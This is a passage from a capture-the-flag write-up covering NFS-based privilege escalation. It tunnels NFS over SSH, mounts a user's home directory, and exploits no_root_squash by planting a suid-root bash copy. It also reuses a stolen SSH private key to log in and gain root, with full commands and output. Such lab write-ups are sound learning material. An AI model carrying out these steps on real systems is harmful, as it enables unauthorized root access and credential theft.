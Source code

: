 And opened a ssh tunnel for this port
```bash
ssh -L 2049:localhost:2049 paradox@target
```

Then I followed the instructions to mound the NFS locally as root.
```bash
root@kali:~# sudo apt install libnfs-utils

root@kali:~# mount -t nfs localhost:/ /tmp/pe

root@kali:~# ls /tmp/pe/
user.flag

root@kali:~# cat /tmp/pe/user.flag 
USER FLAG
```

I had the home folder of james locally with the user flag in it.

## Getting root

To get root, I followed the instructions from HackTricks to upload a bash binary with suid set as root.

```bash
$ cd /tmp/pe
$ cp /bin/bash .
$ chmod +s bash
```

Because of the `no_root_squash` option on the NFS mount, james' home folder now contained a bash executable owned by root with the suid bit set. So if james ran it, it will run as root.

I did not have james password, but since I had their home folder mounted, I could see their ssh private key. And use it to connect to the server as james. 

```bash
$ ls /tmp/pe/.ssh/
authorized_keys  id_rsa  id_rsa.pub

$ ssh james@target -i /tmp/pe/.ssh/id_rsa
Last failed login: Sat Jun  5 13:55:53 BST 2021 on pts/1
There were 4 failed login attempts since the last successful login.
Last login: Wed Nov 18 18:26:00 2020 from 192.168.170.145
```

Once connected, I could run the version of bash that has the suid bit set to become root and get the last flag.

```bash
[james@ip-10-10-237-235 ~]$ ./bash -p
./bash: /lib64/libtinfo.so.6: no version information available (required by ./bash)

bash-5.1# whoami
root

bash-5.1# cat /root/root.flag 
ROOT FLAG
```
